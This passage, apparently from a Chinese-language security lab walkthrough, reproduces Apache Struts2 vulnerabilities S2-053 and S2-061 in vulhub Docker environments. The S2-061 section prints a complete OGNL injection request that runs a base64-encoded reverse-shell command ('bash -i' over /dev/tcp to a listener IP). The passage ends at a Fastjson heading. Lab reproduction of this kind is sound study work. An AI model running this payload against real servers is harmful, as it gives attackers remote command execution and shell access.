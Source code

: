   
![image-20230419195600069](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5sFHgJOXr3ibYibN8OKewsLNY0xTLONUoyzy5n7AJ4cwrvtPs339f6Rog/640?wx_fmt=png&from=appmsg "")  
  
回显**tomcatBinDir{/usr/local/tomcat}**，成功实现命令执行  
#### s2-053  

```
cd vulhub/struts2/s2-053
docker-compose up -d
```

  
![image-20230419200514727](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5bkCKqKG1FZO5lDmrtxzqHcYjvk3JicCFBOAWbZsDnc6bbOzFetaaeQg/640?wx_fmt=png&from=appmsg "")  
  
访问环境**hello.action**  
  
![image-20230419200833587](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5KiamicE9YCyByqtMajjVs10rRAGmicvdmyO9x2icdqQqXiasybJ2b9gict0Q/640?wx_fmt=png&from=appmsg "")  
  
接下来查看监听  
  
![image-20230419203040680](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5S9J0ibsCibaF6v5icdomX0PHm9xpqkYub9QDDl6M413f4xfBt0pX6zFlw/640?wx_fmt=png&from=appmsg "")  
#### S2-061  
  
开启环境用vulhub  

```
cd vulhub/struts2/s2-061
docker-compose up -d
```

  
接下来抓包，而后修改为POST请求，发送反弹shell恶意指令  

```
------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name=&#34;id&#34;

%{(#instancemanager=#application[&#34;org.apache.tomcat.InstanceManager&#34;]).(#stack=#attr[&#34;com.opensymphony.xwork2.util.ValueStack.ValueStack&#34;]).(#bean=#instancemanager.newInstance(&#34;org.apache.commons.collections.BeanMap&#34;)).(#bean.setBean(#stack)).(#context=#bean.get(&#34;context&#34;)).(#bean.setBean(#context)).(#macc=#bean.get(&#34;memberAccess&#34;)).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance(&#34;java.util.HashSet&#34;)).(#bean.put(&#34;excludedClasses&#34;,#emptyset)).(#bean.put(&#34;excludedPackageNames&#34;,#emptyset)).(#arglist=#instancemanager.newInstance(&#34;java.util.ArrayList&#34;)).(#arglist.add(&#34;bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}&#34;)).(#execute=#instancemanager.newInstance(&#34;freemarker.template.utility.Execute&#34;)).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

  
![image-20230419210122924](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK51dwib7GPQWx5Laic8H28q8gX0MxLFvoiafGyVMJ81VTUYLQxygcboicAjg/640?wx_fmt=png&from=appmsg "")  
# Fastjson  
## 漏洞原理  
  